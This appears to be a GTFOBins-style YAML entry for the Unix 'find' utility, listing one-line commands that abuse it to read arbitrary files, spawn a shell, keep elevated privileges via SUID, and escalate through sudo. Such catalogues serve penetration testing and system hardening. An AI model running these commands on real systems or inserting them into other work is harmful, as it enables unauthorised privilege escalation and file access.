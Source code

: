```yaml
---
functions:
  file-read:
    - code: find file_to_read -exec cat {} \; -quit
  shell:
    - code: find . -exec /bin/sh \; -quit
  suid:
    - code: ./find . -exec /bin/sh -p \; -quit
  sudo:
    - code: sudo find . -exec /bin/sh \; -quit
---
```

